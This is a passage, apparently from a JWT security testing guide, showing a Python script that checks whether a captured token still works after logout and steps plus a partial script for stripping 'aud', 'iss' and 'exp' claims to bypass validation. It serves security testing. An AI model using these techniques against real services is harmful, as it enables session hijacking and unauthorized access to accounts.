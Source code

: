        base_url = "https://example.com/api"
       token = "captured_valid_jwt"
       headers = {"Authorization": f"Bearer {token}"}
       
       def test_token():
           response = requests.get(f"{base_url}/profile", headers=headers)
           return response.status_code == 200
       
       # Initial test
       print(f"Initial token validity: {test_token()}")
       
       # Perform logout
       logout_headers = headers.copy()
       requests.post(f"{base_url}/logout", headers=logout_headers)
       print(f"Token validity after logout: {test_token()}")
       
       # Wait and test again
       time.sleep(60)
       print(f"Token validity after 60 seconds: {test_token()}")
       ```

    3. **Missing claims exploitation**:
       - Step 1: Analyze JWT payload for missing standard claims
       - Step 2: Modify the payload to remove or manipulate claims like `aud`, `iss`, `nbf`
       - Step 3: If signature can be forged, create a new valid token without these claims
       - Step 4: Test if the server accepts tokens without critical claims
       - Example: Remove `aud` claim to bypass audience validation
       - Testing insight: Try negative values for time-based claims
       - Exploitation insight: Missing claim validation can lead to token reuse across services
       - Python script for removing claims:
       ```python
       import jwt
       
       # Original JWT
       token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpc3MiOiJhdXRoLnNlcnZpY2UuY29tIiwiYXVkIjoiYXBpLnNlcnZpY2UuY29tIiwiZXhwIjoxNjczNDU2Nzg5fQ.signature"
       
       # Decode the token without verification
       payload = jwt.decode(token, options={"verify_signature": False})
       
       # Remove critical claims
       if 'aud' in payload: del payload['aud']
       if 'iss' in payload: del payload['iss']
       if 'exp' in payload: del payload['exp']
       